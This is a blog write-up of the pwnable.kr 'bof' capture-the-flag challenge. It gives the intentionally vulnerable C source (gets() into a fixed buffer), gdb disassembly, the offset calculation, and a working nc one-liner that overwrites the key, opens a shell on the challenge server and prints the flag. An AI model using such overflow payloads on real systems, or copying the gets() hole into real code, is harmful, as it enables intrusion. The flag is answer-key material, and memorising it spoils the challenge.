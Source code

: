 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **Toddler's Bottle - bof**

Toddler's Bottle is one of the CTF games at pwnable.kr website.  I am going to do the game is namely bof.  There are already many writeups in the internet.  However, I am going to explain what I learnt from this game.

[Website](http://pwnable.kr/play.php) (Select bof)  
[Source Code](http://pwnable.kr/bin/bof.c)  
[Binary](http://pwnable.kr/bin/bof)  

[Exploit Server](http://pwnable.kr:9000)

The source code of the bof binary is provided.  I examine the source code and found out that we are going to replace the key from ```0xdeadbeef``` to ```0xcafebabe```.  The ```overflowme``` variable is 32 characters long.  No matter what you entered in the ```overflowme``` variable, the key is not changed as it is hard coded.  It is a buffer overflow challenge.  However, we are not going to take control of the return address this time.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

Load the gdb with PEDA and check with ```checksec```.  It is confirmed that the NX is enabled with another restrictions.

```bash
gdb -q ./bof
```
```bash
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
```

Run ```disass main``` to disassemble the ```main``` function.

```bash
disass main
```
```bash
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000068a <+0>:     push   ebp
   0x0000068b <+1>:     mov    ebp,esp
   0x0000068d <+3>:     and    esp,0xfffffff0
   0x00000690 <+6>:     sub    esp,0x10
   0x00000693 <+9>:     mov    DWORD PTR [esp],0xdeadbeef
   0x0000069a <+16>:    call   0x62c <func>
   0x0000069f <+21>:    mov    eax,0x0
   0x000006a4 <+26>:    leave  
   0x000006a5 <+27>:    ret    
End of assembler dump.
gdb-peda$
```

Run ```disass func``` to disassembe the ```func``` function.

```bash
disass func
```
```bash
gdb-peda$ disass func
Dump of assembler code for function func:
   0x0000062c <+0>:     push   ebp
   0x0000062d <+1>:     mov    ebp,esp
   0x0000062f <+3>:     sub    esp,0x48
   0x00000632 <+6>:     mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:    call   0x645 <func+25>
   0x00000649 <+29>:    lea    eax,[ebp-0x2c]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   0x650 <func+36>
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:    jne    0x66b <func+63>
   0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:    call   0x665 <func+57>
   0x00000669 <+61>:    jmp    0x677 <func+75>
   0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:    call   0x673 <func+71>
   0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:    je     0x688 <func+92>
   0x00000683 <+87>:    call   0x684 <func+88>
   0x00000688 <+92>:    leave  
   0x00000689 <+93>:    ret    
End of assembler dump.
gdb-peda$
```

In the ```func``` function, the following codes that I am interested in.

```bash
0x00000649 <+29>:    lea  eax,[ebp-0x2c]
0x0000064c <+32>:    mov  DWORD PTR [esp],eax
0x0000064f <+35>:    call 0x650 <func+36>
0x00000654 <+40>:    cmp  DWORD PTR [ebp+0x8],0xcafebabe
0x0000065b <+47>:    jne  0x66b <func+63>
```

The ```eax,[ebp-0x2c]```, ```ebp-0x2c``` may be contained the value of ```overflowme``` variable and saved in eax register.

The ```DWORD PTR [ebp+0x8],0xcafebabe```, ```ebp+0x8``` may be contained the value of key, that is ```0xdeadbeef```.

I am going to set a breakpoint at ```0x0000065b <+47>```.

```bash
b *func+47
```
```bash
gdb-peda$ b *func+47
Breakpoint 1 at 0x65b
gdb-peda$ r
Starting program: /root/20181212/bof
overflow me :
helloworld
```

Then ```r``` run the program and is prompted for entering ```helloworld``` as the ```overflowme```.

```bash
[----------------------------------registers-----------------------------------]
EAX: 0xbffff30c ("helloworld")
EBX: 0x0
ECX: 0xb7fab5c0 --> 0xfbad2288
EDX: 0xb7fac89c --> 0x0
ESI: 0xb7fab000 --> 0x1d5d8c
EDI: 0x0
EBP: 0xbffff338 --> 0xbffff358 --> 0x0
ESP: 0xbffff2f0 --> 0xbffff30c ("helloworld")
EIP: 0x40065b (<func+47>:   jne    0x40066b <func+63>)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40064c <func+32>:  mov    DWORD PTR [esp],eax
   0x40064f <func+35>:  call   0xb7e3c5c0 <_IO_gets>
   0x400654 <func+40>:  cmp    DWORD PTR [ebp+0x8],0xcafebabe
=> 0x40065b <func+47>:  jne    0x40066b <func+63>
 | 0x40065d <func+49>:  mov    DWORD PTR [esp],0x40079b
 | 0x400664 <func+56>:  call   0xb7e12870 <__libc_system>
 | 0x400669 <func+61>:  jmp    0x400677 <func+75>
 | 0x40066b <func+63>:  mov    DWORD PTR [esp],0x4007a3
 |->   0x40066b <func+63>:  mov    DWORD PTR [esp],0x4007a3
       0x400672 <func+70>:  call   0xb7e3ce40 <_IO_puts>
       0x400677 <func+75>:  mov    eax,DWORD PTR [ebp-0xc]
       0x40067a <func+78>:  xor    eax,DWORD PTR gs:0x14
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xbffff2f0 --> 0xbffff30c ("helloworld")
0004| 0xbffff2f4 --> 0x0
0008| 0xbffff2f8 --> 0x0
0012| 0xbffff2fc --> 0xb7dd1b00
0016| 0xbffff300 --> 0x9 ('\t')
0020| 0xbffff304 --> 0xbffff578 ("/root/20181212/bof")
0024| 0xbffff308 --> 0xb7e05d09 (<__new_exitfn+9>:  add    ebx,0x1a52f7)
0028| 0xbffff30c ("helloworld")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
 
Breakpoint 1, 0x0040065b in func ()
```

After entering the ```helloworld```, I am going to examine the ```eax``` and ```ebp+0x8```.

```bash
x/x $ebp+0x8

x/s $eax
```
```bash
gdb-peda$ x/x $ebp+0x8
0xbffff340: 0xdeadbeef
gdb-peda$ x/s $eax
0xbffff30c: "helloworld"
gdb-peda$
```

The result confirmed what I suspected.  I am going to check the offset the two addresses with Python.  The offset is ```52```.

```python
root@kali:~# python
Python 2.7.15+ (default, Nov 28 2018, 16:27:22)
[GCC 8.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xbffff340 - 0xbffff30c
52L
>>>
```

Once get the offset, I am going to overwrite the ```0xdeadbeef``` with ```0xcafebabe``` with the exploit code.  The ```cat``` command is for the interactive with the shell.

```bash
(python -c 'print "A"*52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
```
```bash
root@kali:~/20181212# (python -c 'print "A"*52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
id
uid=1008(bof) gid=1008(bof) groups=1008(bof)
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

The flag is :
```
daddy, I just pwned a buFFer :)
```

[![](https://img.youtube.com/vi/SKZa5eLuO90/0.jpg)](https://www.youtube.com/watch?v=w1T9B9bixjA)


|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|
